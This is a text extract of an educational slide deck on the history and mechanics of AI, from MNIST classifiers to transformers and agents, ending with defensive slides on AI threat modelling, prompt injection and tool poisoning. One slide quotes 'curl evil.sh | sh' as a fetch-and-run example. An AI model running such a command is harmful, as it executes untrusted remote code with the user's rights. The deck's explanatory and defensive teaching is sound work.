


AI Field Map
Left → right: chronological order · colour = theme · edges = conceptual dependencies
Early Machine Learning (1989-1998)
Pattern Recognition Breakthroughs
- Postal Address Recognition - Early neural networks deployed for real-world automation
- MNIST Dataset (1998) - 70,000 handwritten digits (28×28 pixels)
- Simple Neural Networks - Multilayer perceptrons with backpropagation
MNIST Dataset Structure
- 60,000 training images
- 10,000 test images
- 784 features per image (28×28)
- Grayscale values [0, 1]
These early systems proved that neural networks could solve real problems, setting the stage for deeper architectures.
How Naive Bayes "Sees" Digits
The model learns probability distributions P(pixel=1|digit) for each of 784 pixels per digit class.

Left column: Model's learned probability maps (blurred/spread out)
Other columns: Generated samples by sampling from probabilities
Source: Project 2, Q5 - Generative model visualization
Dive deeper into MNIST experiments
MNIST: Preprocessing Tricks
Gaussian Blur for Robustness
Applying blur filtering smooths "human noise" - removing individual writing quirks while preserving overall digit shape.
Blur Formula (8-neighbor window):
f[i,j] = pixel[i,j] + Σ(neighbors) / w
w = weight parameter (optimal: 0.3-0.5)
Experimental Results (k-NN, k=1)
- No blur: 88% accuracy
- Blur training only: ~90% accuracy
- Blur both: 90%+ accuracy (w=0.3-0.5)
Why Blurring Works
Character recognition depends on overall shape:
- Curves and loops matter
- Small bumps and nudges don't
- Handwriting "flair" creates noise
- Blurring emphasizes structure over details
Source: Project 2, Q1 - Gaussian blur experiments on mini-train (1000 samples)
MNIST: Naive Bayes Classifiers
Model Comparison
Bernoulli NB (Binary features)
- Binarize pixels: threshold 0.1
- P(pixel=1|digit) for each pixel
- Accuracy: ~83%
- Optimal α (Laplace smoothing): 0.001
Multinomial NB (3 levels)
- Trinarize: {white, gray, black}
- Thresholds: 0.1 and 0.9
- Accuracy: ~82% (slightly worse)
Key Insights
Why Binary Works Better:
When recognizing symbols like digits, we remove as much information as possible to see shape clearly. Colors don't matter, shape does. Binary representation captures this better than gradients.
Gaussian NB Challenge
- Initially: ~55% accuracy
- Issue: Variance estimation problems
- Solution: Tuning var_smoothing parameter
- Optimized: ~83% accuracy (comparable to Bernoulli)
Source: Project 2, Q2-Q4 - Mini-train (1000) → Dev (1000)
Learning Paradigms
Supervised vs Unsupervised
Supervised Learning
- Learns from labeled examples
- Input → Output mapping
- Examples: Image classification, spam detection
Unsupervised Learning
- Discovers patterns without labels
- Clustering, dimensionality reduction
- Examples: Customer segmentation, anomaly detection
Generative vs Discriminative
Generative Models
- Learn to create new data
- Model the full distribution P(X)
- Examples: GANs, VAEs, language models
- Can generate images, text, audio
Discriminative Models
- Learn to classify or predict
- Model conditional P(Y|X)
- Examples: Classifiers, regressors
- Focus on decision boundaries
Model Evaluation — Accuracy, Precision, Recall & F1
Simple but can be misleading on imbalanced datasets — a model predicting "no cancer" always has high accuracy if only 1% of patients have cancer.
High precision = few false alarms. Matters when false positives are costly (e.g. spam filter wrongly blocking real email).
High recall = few misses. Matters when false negatives are costly (e.g. missing a cancer diagnosis).
Harmonic mean of precision and recall. Drops to zero if either component is zero — penalises extreme imbalance.
Neural Networks: The Core Idea
A Function Over Vectors
f(x) = p
input vector → output probability vector
- Input layer — receives the raw feature vector (e.g. 784 pixel values)
- Hidden layers — learn intermediate representations through weighted connections & activations
- Output layer — emits a probability for each class (sums to 1 via softmax)
The network adjusts millions of weights during training so that f(x) assigns high probability to the correct class.
From Pixels to Input Vector
The Perceptron — Building Block of Neural Networks
Weights & Biases — Layer as Matrix Multiplication
z2
⋮
zm
w21 w22 ··· w2n
⋮ ⋮ ⋱ ⋮
wm1 wm2 ··· wmn
x2
⋮
xn
b2
⋮
bm
dot product with x = that neuron's sum
fires even when all inputs are zero
W has 100,352 weights to learn
Why Activation Functions?
The linear problem
Without an activation function every layer is just a matrix multiply:
No matter how many layers you stack, the whole network collapses to a single linear transformation — it can only draw straight decision boundaries.
Sigmoid σ(x)
Gradient → 0 at extremes → vanishing gradients
ReLU max(0, x)
Gradient is constant 1 when active — gradients flow freely through deep networks
Why sigmoid was a problem
- Outputs always between 0 and 1
- Activations are not zero-centered
- Gradients get tiny at the extremes
Why ReLU became preferred
- Faster training
- Less vanishing gradient
- Works much better in deep networks
Activation Functions & the Role of Bias
Multilayer Perceptrons (1989)
The Architecture
Layers:
- Input layer: Raw features (e.g., 784 pixels)
- Hidden layers: Non-linear transformations
- Output layer: Class probabilities
y = σ(W₂ · σ(W₁ · x + b₁) + b₂)
Each neuron computes:
- Weighted sum of inputs
- Adds a bias term
- Applies non-linear activation σ
Network Visualization
How to Train: Backpropagation (1986)
Training Algorithm
- Forward pass: Compute predictions
- Loss calculation: Compare to labels
- Backward pass: Propagate error gradients
- Weight update: Gradient descent
∂L/∂W = (∂L/∂y)(∂y/∂W)
Chain Rule — Gradient Flow
Loss Landscape & Gradient Descent
The loss landscape
Learning rate η
Backpropagation — One Neuron, Full Calculation
But What About the Bias?
Backpropagation — Multi-Layer Gradient Flow
Weights & Biases — Layer as Matrix Multiplication
Mini-Batches & Epochs — Averaging & Iterating
Training the Network — Weight Evolution
Output Layer — Digit Classification
Softmax — Turning Logits into Probabilities
The output layer produces 10 raw scores — logits. Softmax converts them into a valid probability distribution over digit classes.
For class i out of K classes:
σ(z)i = ezᵢ / Σ ezⱼ
j = 0 … K−1
All outputs ∈ (0, 1) — exponentiation forces positivity
Outputs sum to exactly 1 — valid probability distribution
Amplifies the largest logit — winner-takes-most effect
Cross-entropy loss measures how far σ(z) is from the one-hot target label.
Training Parameters — Learning Rate η
Controls how large a step we take along the gradient on each update.
w ← w − η · ∂L/∂w
b ← b − η · ∂L/∂b
Too high: overshoots the minimum — loss oscillates or diverges
Too low: converges correctly but extremely slowly
Typical values: 0.1 → 0.01 → 0.001, often decayed during training
Training in Practice — Optimization Algorithms
Statistical Bias — The Underfitting Problem
Not the neuron bias b. In ML theory, bias is the systematic error from a model that is too simple to fit the data.
Bias–Variance decomposition:
E[MSE] = Bias² + Variance + Noise
This is the expected total prediction error averaged over all possible training sets — not a partial derivative. Each term is an independent source of error.
Bias²: wrong on average — model assumptions don't match reality
Variance: sensitive to which training samples we happened to get
Noise: irreducible — inherent randomness in the data itself
Overfitting — When the Model Memorises
Overfitting: the model fits the training data so well that it learns its noise and quirks — and fails to generalise to new examples.
High training accuracy. Lower validation accuracy.
Epoch: one complete pass through the entire training dataset.
steps/epoch = Ntrain / batch_size
Training for too many epochs keeps pushing training accuracy up, but validation accuracy peaks and falls — the classic sign of overfitting.
Tips & Tricks — Setting Up Training
Overfitting Controls
Early stopping
Monitor validation loss. Stop when it stops improving for patience epochs. Save the best checkpoint.
Dropout
Randomly zero p% of activations each forward pass. Forces the network to learn redundant representations.
typical p = 0.1 – 0.5
L1 / L2 Regularisation
L2: loss += λ · Σ w²
L1: loss += λ · Σ |w|
Penalises large weights. L2 shrinks all weights; L1 drives many to zero (sparsity).
Data augmentation
Artificially expand training data with flips, crops, rotations, noise. The most reliable overfitting cure.
Optimisation
Batch normalisation
Normalise layer inputs to zero mean, unit variance per mini-batch. Allows higher learning rates and reduces sensitivity to initialisation.
LR scheduling
Start high to escape flat regions; decay to fine-tune near the minimum.
warm-up → cosine decay
Learning Rate Adjustments
start: 1e-3 – 1e-2
min: 1e-6 – 1e-5
too high → diverge
too low → stall
Gradient clipping
Cap gradient norm before the weight update. Prevents exploding gradients in deep or recurrent networks.
if ‖g‖ > τ: g ← g · τ/‖g‖
Adaptive optimisers
Adam, AdamW — maintain per-parameter learning rates using gradient momentum and second moment estimates. Default choice for most tasks.
Leaky ReLU
Dying ReLU problem: once a neuron outputs 0 for every input, its gradient is also 0 — weights never update and the neuron is permanently dead.
Leaky ReLU fix: replace the flat region with a tiny slope α (≈ 0.01). Gradient is never exactly zero, so dead neurons can recover and training stays stable in deep nets.
f(x) = x if x > 0, αx otherwise
Efficient Fine-tuning
Transfer learning
Start from a pre-trained model. Freeze early layers; fine-tune later layers on the target task. Needs far less data.
LoRA (Low-Rank Adaptation)
Instead of updating the full weight matrix W, inject a small trainable low-rank decomposition:
W' = W + A · BT
A is (d×r), B is (d×r), with r ≪ d. W stays frozen.
Reduces trainable parameters by 100–1000×. Widely used for LLM fine-tuning.
Weight initialisation
Xavier / He init scale weights by layer size — prevents vanishing or exploding activations from the very first forward pass.
Convolutional Filters — Sliding Masks Across an Image
Sliding & Summing — Convolution and Pooling
Full Digit — Convolution & Max Pooling
CNN Architecture — 3D Network View
CNN — Parameters & Learned Filters
CNN — Conv2D (1) Activations
CNN — MaxPool (1) Activations
CNN — Conv2D (2) Activations
CNN — MaxPool (2) Activations
CNN — Digit Classification
Training CNNs — Backprop Through Convolution
Same as MLP
- Forward pass → compute predictions
- Cross-entropy loss function
- Backpropagation via chain rule
- Gradient descent — Adam / SGD
Key difference — shared weights
- One 3×3 filter slides over the whole image
- Same 9 weights used at every position
- Gradient = sum over all positions applied
- → far fewer parameters than a fully-connected layer
What filters learn
- Early layers → edges, corners, gradients
- Middle layers → textures, curves, patterns
- Deep layers → object parts, faces, digits
Encoder–Decoder Architecture
Encoder–Decoder Key Concepts
"One label per pixel"
Semantic segmentation assigns a class label to every output pixel — the output is the same resolution as the input. Contrast with classification (one label per image) and detection (one label per bounding box).
What is "depth"?
Depth = the channel dimension of a feature tensor. A tensor 28×28×256 has spatial size 28×28 and depth 256. Each channel is one learned feature detector — edges, textures, curve orientations, semantic parts — stacked in depth.
Dense prediction ≠ bigger kernels
Pixel-level output comes from spatial reconstruction in the decoder (upsampling / deconvolution), not from using filters of different sizes. Larger or multi-scale kernels help capture context at different ranges, but they do not produce the per-pixel output on their own.
Encoder ≈ "what". Decoder ≈ "where".
Most semantic feature learning happens in the encoder. The decoder primarily recovers the spatial arrangement by reversing the pooling compression — though in modern architectures decoder heads can also contribute to classification, object queries, and masks.
Encoder + MLP is enough for classification
To answer "is there a bus in this image?" — yes, Conv2D + MaxPool × N → Global Avg Pool → FC is fully sufficient (VGG-16, ResNet). No decoder needed when you don't care about spatial location, only about which classes are present.
Decoder restores spatial structure, not relations
The decoder recovers which pixels belong to each object. Spatial relations ("bird is above the bridge") are a reading of the output map, not explicit reasoning by the decoder. Higher-level relational understanding requires additional modules (e.g. transformers, scene graphs).
Detection head — architecture
A detection head attaches to encoder features and predicts class + bounding box per candidate region: GAP → FC → [N class scores + 4 box coords (x,y,w,h)]. An attention decoder yields items + boxes; a full deconvolution decoder yields pixel-precise masks per item.
Transfer learning across scenes
CNNs learn composable, reusable features — edges, textures, wheels, windows. A model trained on buses learns what a bus looks like. In a new image containing both a bus and a car, bus features activate for bus pixels, car features for car pixels independently. The network generalises because features are object-specific, not scene-specific.
Labelled training → open-world inference
Training on labelled bus images teaches the encoder bus-specific patterns. At inference time a new image with multiple objects is processed region by region — the bus detector activates only where the bus pattern is present, regardless of other objects co-occurring in the scene. This is why multi-class detection works without retraining.
CNN Architectures 2012 – Present
The Breakthrough Era
- AlexNet (2012) — 15.3% top-5 error, ReLU + GPU training
- VGGNet (2014) — 16–19 layers, uniform 3×3 filters
- GoogLeNet (2014) — Inception modules, 22 layers, 6.7% error
- ResNet (2015) — Residual skip connections, 152 layers, 3.57% error
- DenseNet (2017) — Every layer connected to every other
- EfficientNet (2019) — Compound depth/width/resolution scaling
What Changed — and What Didn't
- Residual connections solved vanishing gradients — networks could finally go very deep
- Mobile-optimized CNNs (MobileNet, SqueezeNet) brought inference to edge devices
- Transfer learning became standard — pretrain on ImageNet, fine-tune on any task
- Vision Transformers (2020+) challenged CNNs on large-scale benchmarks
- CNNs still dominate embedded AI, real-time and medical imaging today
Live Demo — Real-time Object Detection (MobileNet + SSD)
Model architecture
↓ feature maps (7×7×1280)
SSD detection head
↓ [class × 80] + [x,y,w,h]
Non-max suppression
↓ final bounding boxes
Detections
Runs entirely in the browser via TensorFlow.js. No data leaves your device. Serve with python3 -m http.server for camera access.
No More MNIST Numbers!
Language Encoding & Vector Embeddings (2013-2015)
Representing Meaning as Vectors
- Word2Vec (2013) - Google's breakthrough in word embeddings
- GloVe (2014) - Stanford's global vector representation
- Words become points in high-dimensional space
- Semantic relationships encoded as distances
The Magic of Vector Math
king - man + woman ≈ queen
Paris - France + Italy ≈ Rome
Similarity in Vector Space
Words with similar meanings cluster together in the high-dimensional space:
Close together:
- "dog" ↔ "puppy" ↔ "canine"
- "running" ↔ "jogging" ↔ "sprinting"
Far apart:
- "dog" ↔ "mathematics"
- "happy" ↔ "table"
This enables machines to understand relationships and analogies without explicit programming.
Similarity in Vector Space
Try It: Vector Math
Type any word equation using + and −.
Words must be in the GloVe vocabulary (top 10 000 + curated places, food & people).
Model
GloVe 6B
Pennington et al., Stanford 2014
Training corpus
6 billion tokens
Wikipedia 2014 + Gigaword 5
Dimensions
Higher = richer, heavier. 50d works well for analogies.
Vocabulary
400 000 words total
Top 10 000 + ~1 000 curated places, food & people (10 953 total)
Embeddings in LLMs (how it actually works)
Token → Index → Vector
"The king is wise"
Vocab & Dimension by Model
| Model | Vocab | Dim d | Embed params |
|---|---|---|---|
| BERT-base | 30 522 | 768 | 23 M |
| GPT-2 | 50 257 | 768 | 39 M |
| LLaMA 2 (7B) | 32 000 | 4 096 | 131 M |
| GPT-3 (175B) | 50 257 | 12 288 | 617 M |
| LLaMA 3.1 (70B) | 128 256 | 8 192 | 1 051 M |
| Gemma 3 (27B) | 262 144 | 5 120 | 1 342 M |
| DeepSeek-V3 new | 129 280 | 7 168 | 734 M |
| Qwen 2.5 (72B) new | 152 064 | 8 192 | 1 246 M |
Word Order: The Missing Piece
A Sentence as a Matrix
Each token maps to an embedding row vector. Stack them and you get a matrix.
“dog bites man”
Shape: 3 × 768 (e.g. BERT-base)
Problem: shuffle the rows → same vectors, different sentence.
The matrix alone carries no word order.
Order Is Meaning
dog bites man
→ routine incident
man bites dog
→ front-page news!
“The old man the boats”
garden-path: “old” is the noun, “man” is the verb
Solution: process words one at a time, in order — treating language as a time series.
x1 → x2 → x3 → x4 (RNN)
RNN: State Flows Through Time
RNN Limitations
same cell, looped at every step
Fixed-Length Memory Bottleneck
The hidden state h is a vector of fixed size. No matter how long the input sequence, all context must be compressed into the same number of dimensions. As sentences grow longer, earlier tokens progressively lose their representation — crowded out by newer ones.
Vanishing Gradient
Backpropagation multiplies gradients at each time step. Over long sequences they shrink toward zero — tokens from early in a sentence barely influence the weights at all. The model becomes blind to long-range dependencies, even if they are semantically critical.
LSTM: The Cell State & Gates
The model carries a cell state C as a running memory. At each step, a forget gate erases irrelevant past, an input gate writes new information in, and an output gate decides what to expose as the next hidden state.
RNNs & LSTMs: Applications & Limitations
Where They Succeeded
- Machine translation — seq2seq models
- Speech recognition
- Text generation & sentiment analysis
- Time series forecasting
LSTMs overcame the vanishing gradient, allowing models to retain context across hundreds of tokens — a real breakthrough for sequential language tasks in the early 2010s.
Why They Were Superseded
Sequential Bottleneck
Each token waits for the previous — no parallelization possible, making training on long sequences painfully slow.
Fixed-Size Memory
The entire context is squeezed into one hidden vector — long documents inevitably lose information.
Cannot Scale
Poor GPU utilization and memory constraints prevented the model scale that made modern LLMs possible.
Attention "Making Skynet Possible"
"Attention is All You Need"
June 2017 - Vaswani et al., Google Brain
The Breakthrough
- Self-Attention Mechanism - All tokens attend to all others simultaneously
- Parallel Processing - No sequential dependency like RNNs
- Positional Encoding - sin/cos functions preserve sequence order
- Multi-Head Attention - Multiple attention patterns in parallel
What It Enabled
- GPT (2018), BERT (2018), T5 (2019)
- ChatGPT, Claude, Gemini (2022+)
- The entire modern AI era
Self-Attention Mechanism
Scaled Dot-Product Attention
- Q — What am I looking for?
- K — What do I contain?
- V — What do I actually say?
- √dk — Scaling factor
Embeddings Get Richer Through Context
How Words Attend to Each Other (QKT)
What to emphasize in each token embedding (V)
Self-attention
Multi-Head Attention
Same budget, lower dimension — each head has its own WQi, WKi, WVi (shape d×dk), so the total parameter count equals one full d×d projection — the budget is divided, not multiplied.
Random init breaks symmetry — heads start with different random weights, so gradients diverge from the first step and each head learns to track a distinct relationship (syntax, coreference, position, …).
Positional Encoding: Sin & Cos
Adding a position signal to the embedding
Rotary Position Embedding (RoPE)
Encoding position by rotating the Q and K vectors
Transformer Block: Feed-Forward Network (FFN)
Working on each token independently — where the model (maybe?) stores learned patterns
FFN: Activation Functions
Fancy FFN: Gated Linear Units (GLU)
GLU-based FFNs make that transformation more selective and expressive by adding a learned gate.
The Transformer: Putting It All Together
Stacked blocks of Attention + FFN — applied to every token in parallel
LLM Architecture Families
Decoder / Generative Language Model
Un-embedding Matrix: From Embedding to Next Token
How Generative LLMs are Trained
Human Annotation in LLM Training
Masking in Decoder Attention
Encoder-Only Models: Bidirectional Understanding
Encoder-Only Fine-Tuning: Classification & Embeddings
The [CLS] Token: Global Context Aggregator
DIY Modelling: TensorFlow & PyTorch
Use Case: Manipulation Detection in Phishing Emails
Transformers for Vision & Image Generation
Vision Transformer (ViT)
- Split image into fixed 16×16 patches, linearly embed each patch as a token
- Prepend a learnable [CLS] token — read out for classification
- Standard transformer encoder; no convolutions, no locality bias
- Requires large-scale pretraining (JFT-300M) to beat CNN baselines
Image Diffusion Transformers (DiT)
- Forward process adds Gaussian noise over T steps; model learns to reverse it
- DiT replaces the U-Net backbone with a transformer — scales with compute
- Timestep t and class/text condition injected via adaLN-Zero modulation
- Underpins Stable Diffusion 3, DALL·E 3, Flux, and Sora (video DiT)
Live Demo: ViT Sees the World
• CLS + 196 patches → 12 transformer blocks
• 12 attention heads · 86M parameters
• Runs in-browser via WebAssembly
Colour = cosine similarity between the
[CLS] token and each patch token in the
final hidden layer (dim 768).
Green = patch most aligned with the class decision.
Cross-Attention: Encoder–Decoder Bridge

Using the keys and values from the encoder with the queries in the decoder attention heads
Cross-Attention: Text-to-Image Generation
Cutting-Edge: Multimodal Autoregressive Models — many details become proprietary from here on
Mixture of Experts (MoE)
Route each token through only the experts it needs
MoE in the Full Model — How Many Blocks?
A model stacks dozens of transformer blocks — most are MoE blocks (not individual experts)
Inside the Router — How Tokens Pick Experts
Score every expert · keep the top-K · softmax-weight their outputs
LLM Model Landscape: Scale & Architecture
Context Windows — How Much Can a Model Read at Once?
Max tokens per API call · log scale · 1 token ≈ ¾ word · as of mid-2025
1.5 Pro
1.5 Flash
3.7
3.1
L. 2
Seek V3
128K ≈ 350 pages · 200K ≈ 550 pages · 1M ≈ 2,700 pages · 2M ≈ 5,500 pages of text
AI Agents
A chatbot responds — an agent plans, acts, observes, and loops
AI Agents — Building Blocks
Four layers of structure — from a single message to a fully packaged capability
in three bullet points."
"Find all TODO comments
in this repo."
"Reply in the user's language."
/summarise → doc summary
/translate → multilingual
/plan → task planning
Agent Memory
The context window limits how much of that saved information the model can use at one time.
Agent Harness — How It All Fits Together

AI
Security
Attacks, threat modelling, and defences for
AI and LLM-based systems.
AI Threat Modelling
Why AI needs its own threat model
Same discipline as STRIDE/PASTA — only now bad data joins bad code and bad configuration as a failure source. Training sets, embeddings, and learned weights are attack surface, just like code and config always have been.
- STRIDE adapted for AI components
- OWASP LLM Top 10 — LLM-specific vulnerability list
- MITRE ATLAS — adversarial tactics & techniques for ML
One interface — it's all plain English
STRIDE for AI Systems
STRIDE — the classic Microsoft threat model — maps cleanly onto AI components. Each AI layer introduces new instances of each threat category.
AI Security Is Still Finding Its Footing
LLM Top 10 (2025)
Threats & Mitigations (2025)
Agentic Top 10 (2026)
Three lists, three numbering schemes — LLM0x · Tx · ASIxx — heavy overlap, all published 2024–2026 and still moving: the threats guide is already on v1.1 (T16–T17 added), and within a year its 17 threats were re-grouped into the 10-item Agentic Top 10. Securing AI is being figured out in real time — the field hasn't settled yet.
27 Entries → 9 Root Causes
The two OWASP lists overlap heavily — advance to fold the redundant entries into one short, boundary-aligned list.
Nine root causes — and they collapse onto just the handful of security boundaries from Threat modelling an AI Agent: ingress, permission gate, egress, provider API & the authenticated principal. (advance to reveal each)
Sources: OWASP Top 10 for LLM Applications (2025) · OWASP Agentic AI: Threats & Mitigations (2025)
Threat modelling an AI Agent
Threat modelling a Multi-Agent System
Example Attack
How a Tool Call Actually Executes
The model emits JSON, never an action — the harness runs it. The permission gate is plain code that reads the JSON between emit and exec.
input_schema — developer-authored trusted config{name, input} + stop_reason — untrusted intent, just textname + input → allow / ask / deny. The boundary.bash -c "npm test" runs with the harness process's OS rights — i.e. yours
Why the shape matters: a bash tool hands the gate one opaque command string — same shape for ls and curl evil.sh | sh. Promote risky actions to dedicated tools (e.g. send_email with typed to/subject/body) so the gate has typed fields it can actually check. Anthropic's built-in bash tool (type: "bash_20250124") ships the schema, but your harness still executes it.
Agent Security
The map above, as an engineering checklist — what becomes tokens, what cuts the odds, what actually stops attacks
⇒ Treat external content & tool results as attacker-controlled. The orange layer lowers the odds — the four walls enforce policy in code: ingress · permission gate · egress · provider API. The model interprets policy; the system must enforce it.
Why Internal Security Is Hard
A tool can be read-only and still steer an agent that holds write privileges elsewhere — that is the dangerous boundary. indirect prompt injection · MCP tool poisoning · cross-tool privilege escalation · confused deputy · excessive agency
attachment:"q-report.pdf", single_use:true, expires:"10:05Z" }
External Input Is Attacker-Controlled
The moment an agent reads something it didn't write, that text is a prompt — whoever authored it is now writing your instructions
⇒ Fetched ≠ trusted. Web pages, RAG chunks and search results are data, never instructions — sanitise at ingress, and assume every byte was written by an attacker.
MITRE ATLAS
Adversarial Threat Landscape for AI Systems — ATT&CK's sibling matrix for attacks on AI, built from real incidents
Threat Models Meet Reality
Spectacular real-world incidents, mapped to OWASP Top 10 for LLM Apps (2025), OWASP Agentic AI Threats & Mitigations (2025) and MITRE ATLAS
LLM0x = OWASP Top 10 for LLM Applications (2025) · Tn = OWASP Agentic AI: Threats & Mitigations (2025) · AML.T / CS = MITRE ATLAS technique / case study · Sources: Aim Security, Adversa AI, Mithril Security, atlas.mitre.org
On the Horizon — Exotic & Theoretical Breaches
Mostly lab demonstrations today — the attack surface the production incidents haven't reached yet. Research-grade, not yet weaponised at scale.
⚠ These are largely academic demonstrations under practical settings — the gap between "proven in a paper" and "exploited in the wild" is how much runway defenders have. Sources: arXiv 2409.20002 (KV-cache), 2411.01076 (speculative decoding), 2506.23260 (agent-protocol threats), Anthropic "Sleeper Agents", Schneier on Security.
References & Awesome Resources
References
Datasets & Foundational Work
- LeCun, Y., Cortes, C. & Burges, C. — The MNIST Database of Handwritten Digits (1998) yann.lecun.com/exdb/mnist
- Pennington, J., Socher, R. & Manning, C. — GloVe: Global Vectors for Word Representation, Stanford NLP (2014). Data: Wikipedia 2014 + Gigaword 5
- Mikolov, T. et al. — Efficient Estimation of Word Representations in Vector Space (Word2Vec), Google (2013)
- Hochreiter, S. & Schmidhuber, J. — Long Short-Term Memory, Neural Computation (1997)
Computer Vision
- Krizhevsky, Sutskever & Hinton — AlexNet, NeurIPS (2012)
- Simonyan & Zisserman — VGGNet, arXiv 1409.1556 (2014)
- Szegedy et al. — GoogLeNet / Inception, arXiv 1409.4842 (2014)
- He et al. — ResNet, arXiv 1512.03385 (2015)
- Huang et al. — DenseNet, arXiv 1608.06993 (2017)
- Tan & Le — EfficientNet, arXiv 1905.11946 (2019)
- Dosovitskiy et al. — Vision Transformer (ViT), arXiv 2010.11929 (2020)
- Touvron et al. — DeiT: Data-efficient Image Transformers, arXiv 2012.12877 (2020)
- Liu et al. — Swin Transformer, arXiv 2103.14030 (2021)
- Radford et al. — CLIP: Learning Transferable Visual Models from Natural Language, OpenAI arXiv 2103.00020 (2021)
Diffusion Models
- Ho et al. — DDPM: Denoising Diffusion Probabilistic Models, arXiv 2006.11239 (2020)
- Rombach et al. — LDM / Stable Diffusion: High-Resolution Image Synthesis with Latent Diffusion Models, arXiv 2112.10752 (2021)
- Ramesh et al. — DALL·E 2: Hierarchical Text-Conditional Image Generation, OpenAI arXiv 2204.06125 (2022)
- Peebles & Xie — DiT: Scalable Diffusion Models with Transformers, arXiv 2212.09748 (2022)
Transformers & LLMs
- Vaswani et al. — "Attention is All You Need", arXiv 1706.03762 (2017)
- Devlin et al. — BERT: Pre-training of Deep Bidirectional Transformers, Google (2018)
- Brown et al. — Language Models are Few-Shot Learners (GPT-3), OpenAI (2020)
- Jiang et al. — Mistral 7B, Mistral AI (2023)
- Jiang et al. — Mixtral of Experts (MoE), Mistral AI arXiv 2401.04088 (2024)
AI Security & Threat Modelling
- OWASP — Top 10 for LLM Applications (2025)
- OWASP — Agentic AI: Threats & Mitigations (2025)
- MITRE — ATLAS — Adversarial Threat Landscape for AI Systems
Tools & Libraries
- Reveal.js — Presentation framework
- D3.js — Data-driven animations
- Three.js — 3D vector space visualization
- TensorFlow.js — In-browser webcam demo
- Hugging Face — Model hub & fine-tuning resources
Awesome Resources
About This Deck
Tools, models, and libraries powering the interactive demos
Embedded Models
cnn-weights.jsmnist-sample.jsglove-vectors.js).